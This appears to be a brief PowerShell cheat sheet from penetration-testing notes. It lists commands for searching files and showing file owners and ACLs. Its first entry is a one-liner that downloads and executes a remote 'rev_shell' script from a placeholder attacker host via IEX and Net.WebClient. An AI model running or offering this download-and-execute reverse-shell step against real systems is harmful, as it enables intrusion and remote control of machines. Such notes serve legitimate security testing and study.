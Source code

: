# Powershell

## Usage

Download and execute file using powershell:

	powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<localhostip>/rev_shell")'

Search for files

	Get-ChildItem -force -Path "C:\Path\To\Search" -Recurse -Filter "filename*"

Show owners of files and dirs

	cmd.exe /c "dir /q"
	get-acl -Path <path_to_file_or_dir> | select *